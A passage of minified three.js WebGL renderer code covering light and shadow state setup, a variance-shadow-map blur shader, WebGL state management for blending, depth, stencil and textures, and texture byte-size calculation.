t=e.get(y);t.position.setFromMatrixPosition(y.matrixWorld),t.color.copy(x).multiplyScalar(b),t.distance=M,t.coneCos=Math.cos(y.angle),t.penumbraCos=Math.cos(y.angle*(1-y.penumbra)),t.decay=y.decay,i.spot[h]=t;const r=y.shadow;if(y.map&&(i.spotLightMap[g]=y.map,g++,r.updateMatrices(y),y.castShadow&&_++),i.spotLightMatrix[h]=r.matrix,y.castShadow){const t=n.get(y);t.shadowIntensity=r.intensity,t.shadowBias=r.bias,t.shadowNormalBias=r.normalBias,t.shadowRadius=r.radius,t.shadowMapSize=r.mapSize,i.spotShadow[h]=t,i.spotShadowMap[h]=S,m++}h++}else if(y.isRectAreaLight){const t=e.get(y);t.color.copy(x).multiplyScalar(b),t.halfWidth.set(.5*y.width,0,0),t.halfHeight.set(0,.5*y.height,0),i.rectArea[u]=t,u++}else if(y.isPointLight){const t=e.get(y);if(t.color.copy(y.color).multiplyScalar(y.intensity),t.distance=y.distance,t.decay=y.decay,y.castShadow){const t=y.shadow,e=n.get(y);e.shadowIntensity=t.intensity,e.shadowBias=t.bias,e.shadowNormalBias=t.normalBias,e.shadowRadius=t.radius,e.shadowMapSize=t.mapSize,e.shadowCameraNear=t.camera.near,e.shadowCameraFar=t.camera.far,i.pointShadow[c]=e,i.pointShadowMap[c]=S,i.pointShadowMatrix[c]=y.shadow.matrix,f++}i.point[c]=t,c++}else if(y.isHemisphereLight){const t=e.get(y);t.skyColor.copy(y.color).multiplyScalar(b),t.groundColor.copy(y.groundColor).multiplyScalar(b),i.hemi[d]=t,d++}}u>0&&(!0===t.has("OES_texture_float_linear")?(i.rectAreaLTC1=Mr.LTC_FLOAT_1,i.rectAreaLTC2=Mr.LTC_FLOAT_2):(i.rectAreaLTC1=Mr.LTC_HALF_1,i.rectAreaLTC2=Mr.LTC_HALF_2)),i.ambient[0]=a,i.ambient[1]=o,i.ambient[2]=s;const y=i.hash;y.directionalLength===l&&y.pointLength===c&&y.spotLength===h&&y.rectAreaLength===u&&y.hemiLength===d&&y.numDirectionalShadows===p&&y.numPointShadows===f&&y.numSpotShadows===m&&y.numSpotMaps===g&&y.numLightProbes===v||(i.directional.length=l,i.spot.length=h,i.rectArea.length=u,i.point.length=c,i.hemi.length=d,i.directionalShadow.length=p,i.directionalShadowMap.length=p,i.pointShadow.length=f,i.pointShadowMap.length=f,i.spotShadow.length=m,i.spotShadowMap.length=m,i.directionalShadowMatrix.length=p,i.pointShadowMatrix.length=f,i.spotLightMatrix.length=m+g-_,i.spotLightMap.length=g,i.numSpotLightShadowsWithMaps=_,i.numLightProbes=v,y.directionalLength=l,y.pointLength=c,y.spotLength=h,y.rectAreaLength=u,y.hemiLength=d,y.numDirectionalShadows=p,y.numPointShadows=f,y.numSpotShadows=m,y.numSpotMaps=g,y.numLightProbes=v,i.version=Bo++)},setupView:function(t,e){let n=0,s=0,l=0,c=0,h=0;const u=e.matrixWorldInverse;for(let e=0,d=t.length;e<d;e++){const d=t[e];if(d.isDirectionalLight){const t=i.directional[n];t.direction.setFromMatrixPosition(d.matrixWorld),r.setFromMatrixPosition(d.target.matrixWorld),t.direction.sub(r),t.direction.transformDirection(u),n++}else if(d.isSpotLight){const t=i.spot[l];t.position.setFromMatrixPosition(d.matrixWorld),t.position.applyMatrix4(u),t.direction.setFromMatrixPosition(d.matrixWorld),r.setFromMatrixPosition(d.target.matrixWorld),t.direction.sub(r),t.direction.transformDirection(u),l++}else if(d.isRectAreaLight){const t=i.rectArea[c];t.position.setFromMatrixPosition(d.matrixWorld),t.position.applyMatrix4(u),o.identity(),a.copy(d.matrixWorld),a.premultiply(u),o.extractRotation(a),t.halfWidth.set(.5*d.width,0,0),t.halfHeight.set(0,.5*d.height,0),t.halfWidth.applyMatrix4(o),t.halfHeight.applyMatrix4(o),c++}else if(d.isPointLight){const t=i.point[s];t.position.setFromMatrixPosition(d.matrixWorld),t.position.applyMatrix4(u),s++}else if(d.isHemisphereLight){const t=i.hemi[h];t.direction.setFromMatrixPosition(d.matrixWorld),t.direction.transformDirection(u),h++}}},state:i}}function Go(t){const e=new Vo(t),n=[],i=[];const r={lightsArray:n,shadowsArray:i,camera:null,lights:e,transmissionRenderTarget:{}};return{init:function(t){r.camera=t,n.length=0,i.length=0},state:r,setupLights:function(){e.setup(n)},setupLightsView:function(t){e.setupView(n,t)},pushLight:function(t){n.push(t)},pushShadow:function(t){i.push(t)}}}function jo(t){let e=new WeakMap;return{get:function(n,i=0){const r=e.get(n);let a;return void 0===r?(a=new Go(t),e.set(n,[a])):i>=r.length?(a=new Go(t),r.push(a)):a=r[i],a},dispose:function(){e=new WeakMap}}}class Wo extends mi{constructor(t){super(),this.isMeshDepthMaterial=!0,this.type="MeshDepthMaterial",this.depthPacking=3200,this.map=null,this.alphaMap=null,this.displacementMap=null,this.displacementScale=1,this.displacementBias=0,this.wireframe=!1,this.wireframeLinewidth=1,this.setValues(t)}copy(t){return super.copy(t),this.depthPacking=t.depthPacking,this.map=t.map,this.alphaMap=t.alphaMap,this.displacementMap=t.displacementMap,this.displacementScale=t.displacementScale,this.displacementBias=t.displacementBias,this.wireframe=t.wireframe,this.wireframeLinewidth=t.wireframeLinewidth,this}}class Xo extends mi{constructor(t){super(),this.isMeshDistanceMaterial=!0,this.type="MeshDistanceMaterial",this.map=null,this.alphaMap=null,this.displacementMap=null,this.displacementScale=1,this.displacementBias=0,this.setValues(t)}copy(t){return super.copy(t),this.map=t.map,this.alphaMap=t.alphaMap,this.displacementMap=t.displacementMap,this.displacementScale=t.displacementScale,this.displacementBias=t.displacementBias,this}}function qo(t,e,n){let i=new _r;const r=new ve,a=new ve,o=new Be,s=new Wo({depthPacking:3201}),l=new Xo,c={},h=n.maxTextureSize,f={[u]:1,[d]:0,[p]:2},m=new er({defines:{VSM_SAMPLES:8},uniforms:{shadow_pass:{value:null},resolution:{value:new ve},radius:{value:4}},vertexShader:"void main() {\n\tgl_Position = vec4( position, 1.0 );\n}",fragmentShader:"uniform sampler2D shadow_pass;\nuniform vec2 resolution;\nuniform float radius;\n#include <packing>\nvoid main() {\n\tconst float samples = float( VSM_SAMPLES );\n\tfloat mean = 0.0;\n\tfloat squared_mean = 0.0;\n\tfloat uvStride = samples <= 1.0 ? 0.0 : 2.0 / ( samples - 1.0 );\n\tfloat uvStart = samples <= 1.0 ? 0.0 : - 1.0;\n\tfor ( float i = 0.0; i < samples; i ++ ) {\n\t\tfloat uvOffset = uvStart + i * uvStride;\n\t\t#ifdef HORIZONTAL_PASS\n\t\t\tvec2 distribution = unpackRGBATo2Half( texture2D( shadow_pass, ( gl_FragCoord.xy + vec2( uvOffset, 0.0 ) * radius ) / resolution ) );\n\t\t\tmean += distribution.x;\n\t\t\tsquared_mean += distribution.y * distribution.y + distribution.x * distribution.x;\n\t\t#else\n\t\t\tfloat depth = unpackRGBAToDepth( texture2D( shadow_pass, ( gl_FragCoord.xy + vec2( 0.0, uvOffset ) * radius ) / resolution ) );\n\t\t\tmean += depth;\n\t\t\tsquared_mean += depth * depth;\n\t\t#endif\n\t}\n\tmean = mean / samples;\n\tsquared_mean = squared_mean / samples;\n\tfloat std_dev = sqrt( squared_mean - mean * mean );\n\tgl_FragColor = pack2HalfToRGBA( vec2( mean, std_dev ) );\n}"}),g=m.clone();g.defines.HORIZONTAL_PASS=1;const _=new Pi;_.setAttribute("position",new yi(new Float32Array([-1,-1,.5,3,-1,.5,-1,3,.5]),3));const v=new Yi(_,m),y=this;this.enabled=!1,this.autoUpdate=!0,this.needsUpdate=!1,this.type=1;let x=this.type;function b(n,i){const a=e.update(v);m.defines.VSM_SAMPLES!==n.blurSamples&&(m.defines.VSM_SAMPLES=n.blurSamples,g.defines.VSM_SAMPLES=n.blurSamples,m.needsUpdate=!0,g.needsUpdate=!0),null===n.mapPass&&(n.mapPass=new Ve(r.x,r.y)),m.uniforms.shadow_pass.value=n.map.texture,m.uniforms.resolution.value=n.mapSize,m.uniforms.radius.value=n.radius,t.setRenderTarget(n.mapPass),t.clear(),t.renderBufferDirect(i,null,a,m,v,null),g.uniforms.shadow_pass.value=n.mapPass.texture,g.uniforms.resolution.value=n.mapSize,g.uniforms.radius.value=n.radius,t.setRenderTarget(n.map),t.clear(),t.renderBufferDirect(i,null,a,g,v,null)}function M(e,n,i,r){let a=null;const o=!0===i.isPointLight?e.customDistanceMaterial:e.customDepthMaterial;if(void 0!==o)a=o;else if(a=!0===i.isPointLight?l:s,t.localClippingEnabled&&!0===n.clipShadows&&Array.isArray(n.clippingPlanes)&&0!==n.clippingPlanes.length||n.displacementMap&&0!==n.displacementScale||n.alphaMap&&n.alphaTest>0||n.map&&n.alphaTest>0){const t=a.uuid,e=n.uuid;let i=c[t];void 0===i&&(i={},c[t]=i);let r=i[e];void 0===r&&(r=a.clone(),i[e]=r,n.addEventListener("dispose",E)),a=r}if(a.visible=n.visible,a.wireframe=n.wireframe,a.side=3===r?null!==n.shadowSide?n.shadowSide:n.side:null!==n.shadowSide?n.shadowSide:f[n.side],a.alphaMap=n.alphaMap,a.alphaTest=n.alphaTest,a.map=n.map,a.clipShadows=n.clipShadows,a.clippingPlanes=n.clippingPlanes,a.clipIntersection=n.clipIntersection,a.displacementMap=n.displacementMap,a.displacementScale=n.displacementScale,a.displacementBias=n.displacementBias,a.wireframeLinewidth=n.wireframeLinewidth,a.linewidth=n.linewidth,!0===i.isPointLight&&!0===a.isMeshDistanceMaterial){t.properties.get(a).light=i}return a}function S(n,r,a,o,s){if(!1===n.visible)return;if(n.layers.test(r.layers)&&(n.isMesh||n.isLine||n.isPoints)&&(n.castShadow||n.receiveShadow&&3===s)&&(!n.frustumCulled||i.intersectsObject(n))){n.modelViewMatrix.multiplyMatrices(a.matrixWorldInverse,n.matrixWorld);const i=e.update(n),l=n.material;if(Array.isArray(l)){const e=i.groups;for(let c=0,h=e.length;c<h;c++){const h=e[c],u=l[h.materialIndex];if(u&&u.visible){const e=M(n,u,o,s);n.onBeforeShadow(t,n,r,a,i,e,h),t.renderBufferDirect(a,null,i,e,n,h),n.onAfterShadow(t,n,r,a,i,e,h)}}}else if(l.visible){const e=M(n,l,o,s);n.onBeforeShadow(t,n,r,a,i,e,null),t.renderBufferDirect(a,null,i,e,n,null),n.onAfterShadow(t,n,r,a,i,e,null)}}const l=n.children;for(let t=0,e=l.length;t<e;t++)S(l[t],r,a,o,s)}function E(t){t.target.removeEventListener("dispose",E);for(const e in c){const n=c[e],i=t.target.uuid;if(i in n){n[i].dispose(),delete n[i]}}}this.render=function(e,n,s){if(!1===y.enabled)return;if(!1===y.autoUpdate&&!1===y.needsUpdate)return;if(0===e.length)return;const l=t.getRenderTarget(),c=t.getActiveCubeFace(),u=t.getActiveMipmapLevel(),d=t.state;d.setBlending(0),d.buffers.color.setClear(1,1,1,1),d.buffers.depth.setTest(!0),d.setScissorTest(!1);const p=3!==x&&3===this.type,f=3===x&&3!==this.type;for(let l=0,c=e.length;l<c;l++){const c=e[l],u=c.shadow;if(void 0===u){console.warn("THREE.WebGLShadowMap:",c,"has no shadow.");continue}if(!1===u.autoUpdate&&!1===u.needsUpdate)continue;r.copy(u.mapSize);const m=u.getFrameExtents();if(r.multiply(m),a.copy(u.mapSize),(r.x>h||r.y>h)&&(r.x>h&&(a.x=Math.floor(h/m.x),r.x=a.x*m.x,u.mapSize.x=a.x),r.y>h&&(a.y=Math.floor(h/m.y),r.y=a.y*m.y,u.mapSize.y=a.y)),null===u.map||!0===p||!0===f){const t=3!==this.type?{minFilter:k,magFilter:k}:{};null!==u.map&&u.map.dispose(),u.map=new Ve(r.x,r.y,t),u.map.texture.name=c.name+".shadowMap",u.camera.updateProjectionMatrix()}t.setRenderTarget(u.map),t.clear();const g=u.getViewportCount();for(let t=0;t<g;t++){const e=u.getViewport(t);o.set(a.x*e.x,a.y*e.y,a.x*e.z,a.y*e.w),d.viewport(o),u.updateMatrices(c,t),i=u.getFrustum(),S(n,s,u.camera,c,this.type)}!0!==u.isPointLightShadow&&3===this.type&&b(u,s),u.needsUpdate=!1}x=this.type,y.needsUpdate=!1,t.setRenderTarget(l,c,u)}}function Yo(t){const e=new function(){let e=!1;const n=new Be;let i=null;const r=new Be(0,0,0,0);return{setMask:function(n){i===n||e||(t.colorMask(n,n,n,n),i=n)},setLocked:function(t){e=t},setClear:function(e,i,a,o,s){!0===s&&(e*=o,i*=o,a*=o),n.set(e,i,a,o),!1===r.equals(n)&&(t.clearColor(e,i,a,o),r.copy(n))},reset:function(){e=!1,i=null,r.set(-1,0,0,0)}}},n=new function(){let e=!1,n=null,i=null,r=null;return{setTest:function(e){e?it(t.DEPTH_TEST):rt(t.DEPTH_TEST)},setMask:function(i){n===i||e||(t.depthMask(i),n=i)},setFunc:function(e){if(i!==e){switch(e){case 0:t.depthFunc(t.NEVER);break;case 1:t.depthFunc(t.ALWAYS);break;case 2:t.depthFunc(t.LESS);break;case 3:default:t.depthFunc(t.LEQUAL);break;case 4:t.depthFunc(t.EQUAL);break;case 5:t.depthFunc(t.GEQUAL);break;case 6:t.depthFunc(t.GREATER);break;case 7:t.depthFunc(t.NOTEQUAL)}i=e}},setLocked:function(t){e=t},setClear:function(e){r!==e&&(t.clearDepth(e),r=e)},reset:function(){e=!1,n=null,i=null,r=null}}},i=new function(){let e=!1,n=null,i=null,r=null,a=null,o=null,s=null,l=null,c=null;return{setTest:function(n){e||(n?it(t.STENCIL_TEST):rt(t.STENCIL_TEST))},setMask:function(i){n===i||e||(t.stencilMask(i),n=i)},setFunc:function(e,n,o){i===e&&r===n&&a===o||(t.stencilFunc(e,n,o),i=e,r=n,a=o)},setOp:function(e,n,i){o===e&&s===n&&l===i||(t.stencilOp(e,n,i),o=e,s=n,l=i)},setLocked:function(t){e=t},setClear:function(e){c!==e&&(t.clearStencil(e),c=e)},reset:function(){e=!1,n=null,i=null,r=null,a=null,o=null,s=null,l=null,c=null}}},r=new WeakMap,a=new WeakMap;let o={},s={},l=new WeakMap,c=[],h=null,u=!1,d=null,p=null,D=null,I=null,O=null,U=null,N=null,F=new di(0,0,0),k=0,z=!1,B=null,H=null,V=null,G=null,j=null;const W=t.getParameter(t.MAX_COMBINED_TEXTURE_IMAGE_UNITS);let X=!1,q=0;const Y=t.getParameter(t.VERSION);-1!==Y.indexOf("WebGL")?(q=parseFloat(/^WebGL (\d)/.exec(Y)[1]),X=q>=1):-1!==Y.indexOf("OpenGL ES")&&(q=parseFloat(/^OpenGL ES (\d)/.exec(Y)[1]),X=q>=2);let K=null,Z={};const $=t.getParameter(t.SCISSOR_BOX),J=t.getParameter(t.VIEWPORT),Q=(new Be).fromArray($),tt=(new Be).fromArray(J);function et(e,n,i,r){const a=new Uint8Array(4),o=t.createTexture();t.bindTexture(e,o),t.texParameteri(e,t.TEXTURE_MIN_FILTER,t.NEAREST),t.texParameteri(e,t.TEXTURE_MAG_FILTER,t.NEAREST);for(let o=0;o<i;o++)e===t.TEXTURE_3D||e===t.TEXTURE_2D_ARRAY?t.texImage3D(n,0,t.RGBA,1,1,r,0,t.RGBA,t.UNSIGNED_BYTE,a):t.texImage2D(n+o,0,t.RGBA,1,1,0,t.RGBA,t.UNSIGNED_BYTE,a);return o}const nt={};function it(e){!0!==o[e]&&(t.enable(e),o[e]=!0)}function rt(e){!1!==o[e]&&(t.disable(e),o[e]=!1)}nt[t.TEXTURE_2D]=et(t.TEXTURE_2D,t.TEXTURE_2D,1),nt[t.TEXTURE_CUBE_MAP]=et(t.TEXTURE_CUBE_MAP,t.TEXTURE_CUBE_MAP_POSITIVE_X,6),nt[t.TEXTURE_2D_ARRAY]=et(t.TEXTURE_2D_ARRAY,t.TEXTURE_2D_ARRAY,1,1),nt[t.TEXTURE_3D]=et(t.TEXTURE_3D,t.TEXTURE_3D,1,1),e.setClear(0,0,0,1),n.setClear(1),i.setClear(0),it(t.DEPTH_TEST),n.setFunc(3),lt(!1),ct(1),it(t.CULL_FACE),st(0);const at={[f]:t.FUNC_ADD,[m]:t.FUNC_SUBTRACT,[g]:t.FUNC_REVERSE_SUBTRACT};at[103]=t.MIN,at[104]=t.MAX;const ot={[_]:t.ZERO,[v]:t.ONE,[y]:t.SRC_COLOR,[b]:t.SRC_ALPHA,[A]:t.SRC_ALPHA_SATURATE,[w]:t.DST_COLOR,[S]:t.DST_ALPHA,[x]:t.ONE_MINUS_SRC_COLOR,[M]:t.ONE_MINUS_SRC_ALPHA,[T]:t.ONE_MINUS_DST_COLOR,[E]:t.ONE_MINUS_DST_ALPHA,[C]:t.CONSTANT_COLOR,[R]:t.ONE_MINUS_CONSTANT_COLOR,[P]:t.CONSTANT_ALPHA,[L]:t.ONE_MINUS_CONSTANT_ALPHA};function st(e,n,i,r,a,o,s,l,c,h){if(0!==e){if(!1===u&&(it(t.BLEND),u=!0),5===e)a=a||n,o=o||i,s=s||r,n===p&&a===O||(t.blendEquationSeparate(at[n],at[a]),p=n,O=a),i===D&&r===I&&o===U&&s===N||(t.blendFuncSeparate(ot[i],ot[r],ot[o],ot[s]),D=i,I=r,U=o,N=s),!1!==l.equals(F)&&c===k||(t.blendColor(l.r,l.g,l.b,c),F.copy(l),k=c),d=e,z=!1;else if(e!==d||h!==z){if(p===f&&O===f||(t.blendEquation(t.FUNC_ADD),p=f,O=f),h)switch(e){case 1:t.blendFuncSeparate(t.ONE,t.ONE_MINUS_SRC_ALPHA,t.ONE,t.ONE_MINUS_SRC_ALPHA);break;case 2:t.blendFunc(t.ONE,t.ONE);break;case 3:t.blendFuncSeparate(t.ZERO,t.ONE_MINUS_SRC_COLOR,t.ZERO,t.ONE);break;case 4:t.blendFuncSeparate(t.ZERO,t.SRC_COLOR,t.ZERO,t.SRC_ALPHA);break;default:console.error("THREE.WebGLState: Invalid blending: ",e)}else switch(e){case 1:t.blendFuncSeparate(t.SRC_ALPHA,t.ONE_MINUS_SRC_ALPHA,t.ONE,t.ONE_MINUS_SRC_ALPHA);break;case 2:t.blendFunc(t.SRC_ALPHA,t.ONE);break;case 3:t.blendFuncSeparate(t.ZERO,t.ONE_MINUS_SRC_COLOR,t.ZERO,t.ONE);break;case 4:t.blendFunc(t.ZERO,t.SRC_COLOR);break;default:console.error("THREE.WebGLState: Invalid blending: ",e)}D=null,I=null,U=null,N=null,F.set(0,0,0),k=0,d=e,z=h}}else!0===u&&(rt(t.BLEND),u=!1)}function lt(e){B!==e&&(e?t.frontFace(t.CW):t.frontFace(t.CCW),B=e)}function ct(e){0!==e?(it(t.CULL_FACE),e!==H&&(1===e?t.cullFace(t.BACK):2===e?t.cullFace(t.FRONT):t.cullFace(t.FRONT_AND_BACK))):rt(t.CULL_FACE),H=e}function ht(e,n,i){e?(it(t.POLYGON_OFFSET_FILL),G===n&&j===i||(t.polygonOffset(n,i),G=n,j=i)):rt(t.POLYGON_OFFSET_FILL)}return{buffers:{color:e,depth:n,stencil:i},enable:it,disable:rt,bindFramebuffer:function(e,n){return s[e]!==n&&(t.bindFramebuffer(e,n),s[e]=n,e===t.DRAW_FRAMEBUFFER&&(s[t.FRAMEBUFFER]=n),e===t.FRAMEBUFFER&&(s[t.DRAW_FRAMEBUFFER]=n),!0)},drawBuffers:function(e,n){let i=c,r=!1;if(e){i=l.get(n),void 0===i&&(i=[],l.set(n,i));const a=e.textures;if(i.length!==a.length||i[0]!==t.COLOR_ATTACHMENT0){for(let e=0,n=a.length;e<n;e++)i[e]=t.COLOR_ATTACHMENT0+e;i.length=a.length,r=!0}}else i[0]!==t.BACK&&(i[0]=t.BACK,r=!0);r&&t.drawBuffers(i)},useProgram:function(e){return h!==e&&(t.useProgram(e),h=e,!0)},setBlending:st,setMaterial:function(r,a){2===r.side?rt(t.CULL_FACE):it(t.CULL_FACE);let o=1===r.side;a&&(o=!o),lt(o),1===r.blending&&!1===r.transparent?st(0):st(r.blending,r.blendEquation,r.blendSrc,r.blendDst,r.blendEquationAlpha,r.blendSrcAlpha,r.blendDstAlpha,r.blendColor,r.blendAlpha,r.premultipliedAlpha),n.setFunc(r.depthFunc),n.setTest(r.depthTest),n.setMask(r.depthWrite),e.setMask(r.colorWrite);const s=r.stencilWrite;i.setTest(s),s&&(i.setMask(r.stencilWriteMask),i.setFunc(r.stencilFunc,r.stencilRef,r.stencilFuncMask),i.setOp(r.stencilFail,r.stencilZFail,r.stencilZPass)),ht(r.polygonOffset,r.polygonOffsetFactor,r.polygonOffsetUnits),!0===r.alphaToCoverage?it(t.SAMPLE_ALPHA_TO_COVERAGE):rt(t.SAMPLE_ALPHA_TO_COVERAGE)},setFlipSided:lt,setCullFace:ct,setLineWidth:function(e){e!==V&&(X&&t.lineWidth(e),V=e)},setPolygonOffset:ht,setScissorTest:function(e){e?it(t.SCISSOR_TEST):rt(t.SCISSOR_TEST)},activeTexture:function(e){void 0===e&&(e=t.TEXTURE0+W-1),K!==e&&(t.activeTexture(e),K=e)},bindTexture:function(e,n,i){void 0===i&&(i=null===K?t.TEXTURE0+W-1:K);let r=Z[i];void 0===r&&(r={type:void 0,texture:void 0},Z[i]=r),r.type===e&&r.texture===n||(K!==i&&(t.activeTexture(i),K=i),t.bindTexture(e,n||nt[e]),r.type=e,r.texture=n)},unbindTexture:function(){const e=Z[K];void 0!==e&&void 0!==e.type&&(t.bindTexture(e.type,null),e.type=void 0,e.texture=void 0)},compressedTexImage2D:function(){try{t.compressedTexImage2D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},compressedTexImage3D:function(){try{t.compressedTexImage3D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},texImage2D:function(){try{t.texImage2D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},texImage3D:function(){try{t.texImage3D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},updateUBOMapping:function(e,n){let i=a.get(n);void 0===i&&(i=new WeakMap,a.set(n,i));let r=i.get(e);void 0===r&&(r=t.getUniformBlockIndex(n,e.name),i.set(e,r))},uniformBlockBinding:function(e,n){const i=a.get(n).get(e);r.get(n)!==i&&(t.uniformBlockBinding(n,i,e.__bindingPointIndex),r.set(n,i))},texStorage2D:function(){try{t.texStorage2D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},texStorage3D:function(){try{t.texStorage3D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},texSubImage2D:function(){try{t.texSubImage2D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},texSubImage3D:function(){try{t.texSubImage3D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},compressedTexSubImage2D:function(){try{t.compressedTexSubImage2D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},compressedTexSubImage3D:function(){try{t.compressedTexSubImage3D.apply(t,arguments)}catch(t){console.error("THREE.WebGLState:",t)}},scissor:function(e){!1===Q.equals(e)&&(t.scissor(e.x,e.y,e.z,e.w),Q.copy(e))},viewport:function(e){!1===tt.equals(e)&&(t.viewport(e.x,e.y,e.z,e.w),tt.copy(e))},reset:function(){t.disable(t.BLEND),t.disable(t.CULL_FACE),t.disable(t.DEPTH_TEST),t.disable(t.POLYGON_OFFSET_FILL),t.disable(t.SCISSOR_TEST),t.disable(t.STENCIL_TEST),t.disable(t.SAMPLE_ALPHA_TO_COVERAGE),t.blendEquation(t.FUNC_ADD),t.blendFunc(t.ONE,t.ZERO),t.blendFuncSeparate(t.ONE,t.ZERO,t.ONE,t.ZERO),t.blendColor(0,0,0,0),t.colorMask(!0,!0,!0,!0),t.clearColor(0,0,0,0),t.depthMask(!0),t.depthFunc(t.LESS),t.clearDepth(1),t.stencilMask(4294967295),t.stencilFunc(t.ALWAYS,0,4294967295),t.stencilOp(t.KEEP,t.KEEP,t.KEEP),t.clearStencil(0),t.cullFace(t.BACK),t.frontFace(t.CCW),t.polygonOffset(0,0),t.activeTexture(t.TEXTURE0),t.bindFramebuffer(t.FRAMEBUFFER,null),t.bindFramebuffer(t.DRAW_FRAMEBUFFER,null),t.bindFramebuffer(t.READ_FRAMEBUFFER,null),t.useProgram(null),t.lineWidth(1),t.scissor(0,0,t.canvas.width,t.canvas.height),t.viewport(0,0,t.canvas.width,t.canvas.height),o={},K=null,Z={},s={},l=new WeakMap,c=[],h=null,u=!1,d=null,p=null,D=null,I=null,O=null,U=null,N=null,F=new di(0,0,0),k=0,z=!1,B=null,H=null,V=null,G=null,j=null,Q.set(0,0,t.canvas.width,t.canvas.height),tt.set(0,0,t.canvas.width,t.canvas.height),e.reset(),n.reset(),i.reset()}}}function Ko(t,e,n,i){const r=function(t){switch(t){case j:case W:return{byteLength:1,components:1};case q:case X:case $:return{byteLength:2,components:1};case J:case Q:return{byteLength:2,components:4};case K:case Y:case Z:return{byteLength:4,components:1};case et:return{byteLength:4,components:3}}throw new Error(`Unknown texture type ${t}.`)}(i);switch(n){case 1021:case 1024:return t*e;case 1025:return t*e*2;case 1028:case at:return t*e/r.components*r.byteLength;case 1030:case ot:return t*e*2/r.components*r.byteLength;case 1022:return t*e*3/r.components*r.byteLength;case nt:case st:return t*e*4/r.components*r.byteLength;case lt:case ct:return Math.floor((t+3)/4)*Math.floor((e+3)/4)*8;case ht:case ut:return Math.floor((t+3)/4)*Math.floor((e+3)/4)*16;case pt:case mt:return Math.max(t,16)*Math.max(e,8)/4;case dt:case ft:return Math.max(t,8)*Math.max(e,8)/2;case gt:case _t:return Math.floor((t+3)/4)*Math.floor((e+3)/4)*8;case vt:case yt:return Math.floor((t+3)/4)*Math.floor((e+3)/4)*16;case xt:return Math.floor((t+4)/5)*Math.floor((e+3)/4)*16;case bt:return Math.floor((t+4)/5)*Math.floor((e+4)/5)*16;case Mt:return Math.floor((t+5)/6)*Math.floor((e+4)/5)*16;case St:return Math.floor((t+5)/6)*Math.floor((e+5)/6)*16;case Et:return Math.floor((t+7)/8)*Math.floor((e+4)/5)*16;case wt:return Math.floor((t+7)/8)*Math.floor((e+5)/6)*16;case Tt:return Math.floor((t+7)/8)*Math.floor((e+7)/8)*16;case At:return Math.floor((t+9)/10)*Math.floor((e+4)/5)*16;case Ct:return Math.floor((t+9)/10)*Math.floor((e+5)/6)*16;case Rt:return Math.floor((t+9)/10)*Math.floor((e+7)/8)*16;case Pt:return Math.floor((t+9)/10)*Math.floor((e+9)/10)*16;case Lt:return Math.floor((t+11)/12)*Math.floor((e+9)/10)*16;case Dt:return Math.floor((t+11)/12)*Math.floor((e+11)/12)*16;case It:case Ot:case Ut:return Math.ceil(t/4)*Math.ceil(e/4)*16;case 36283:case Nt:return Math.ceil(t/4)*Math.ceil(e/4)*8;case Ft:case kt:return Math.ceil(t/4)*Math.ceil(e/4)*16}throw new Error(`Unable to determine texture byte length for ${n} format.`)}function Zo(t,e,n,i,r,a,o){const s=e.has("WEBGL_multisampled_render_to_texture")?e.get("WEBGL_multisampled_render_to_texture"):null,l="undefined"!=typeof navigator&&/OculusBrowser/g.test(navigator.userAgent),c=new ve,h=new WeakMap;let u;const d=new WeakMap;let p=!1;try{p="undefined"!=typeof OffscreenCanvas&&null!==new OffscreenCanvas(1,1).getContext("2d")}catch(t){}function f(t,e){return p?new OffscreenCanvas(t,e):Me("canvas")}function m(t,e,n){let i=1;const r=Q(t);if((r.width>n||r.height>n)&&(i=n/Math.max(r.width,r.height)),i<1){if("undefined"!=typeof HTMLImageElement&&t instanceof HTMLImageElement||"undefined"!=typeof HTMLCanvasElement&&t instanceof HTMLCanvasElement||"undefined"!=typeof ImageBitmap&&t instanceof ImageBitmap||"undefined"!=typeof VideoFrame&&t instanceof VideoFrame){const n=Math.floor(i*r.width),a=Math.floor(i*r.height);void 0===u&&(u=f(n,a));const o=e?f(n,a):u;o.width=n,o.height=a;return o.getContext("2d").drawImage(t,0,0,n,a),console.warn("THREE.WebGLRenderer: Texture has been resized from ("+r.width+"x"+r.height+") to ("+n+"x"+a+")."),o}return"data"in t&&console.warn("THREE.WebGLRenderer: Image in DataTexture is too big ("+r.width+"x"+r.height+")."),t}return t}function g(t){return t.generateMipmaps&&t.minFilter!==k&&t.minFilter!==H}function _(e){t.generateMipmap(e)}function v(n,i,r,a,o=!1){if(null!==n){if(void 0!==t[n])return t[n];console.warn("THREE.WebGLRenderer: Attempt to use non-existing WebGL internal format '"+n+"'")}let s=i;if(i===t.RED&&(r===t.FLOAT&&(s=t.R32F),r===t.HALF_FLOAT&&(s=t.R16F),r===t.UNSIGNED_BYTE&&(s=t.R8)),i===t.RED_INTEGER&&(r===t.UNSIGNED_BYTE&&(s=t.R8UI),r===t.UNSIGNED_SHORT&&(s=t.R16UI),r===t.UNSIGNED_INT&&(s=t.R32UI),r===t.BYTE&&(s=t.R8I),r===t.SHORT&&(s=t.R16I),r===t.INT&&(s=t.R32I)),i===t.RG&&(r===t.FLOAT&&(s=t.RG32F),r===t.HALF_FLOAT&&(s=t.RG16F),r===t.UNSIGNED_BYTE&&(s=t.RG8)),i===t.RG_INTEGER&&(r===t.UNSIGNED_BYTE&&(s=t.RG8UI),r===t.UNSIGNED_SHORT&&(s=t.RG16UI),r===t.UNSIGNED_INT&&(s=t.RG32UI),r===t.BYTE&&(s=t.RG8I),r===t.SHORT&&(s=t.RG16I),r===t.INT&&(s=t.RG32I)),i===t.RGB&&r===t.UNSIGNED_INT_5_9_9_9_REV&&(s=t.RGB9_E5),i===t.RGBA){const e=o?jt:Pe.getTransfer(a);r===t.FLOAT&&(s=t.RGBA32F),r===t.HALF_FLOAT&&(s=t.RGBA16F),r===t.UNSIGNED_BYTE&&(s=e===Wt?t.SRGB8_ALPHA8:t.RGBA8),r===t.UNSIGNED_SHORT_4_4_4_4&&(s=t.RGBA4),r===t.UNSIGNED_SHORT_5_5_5_1&&(s=t.RGB5_A1)}return 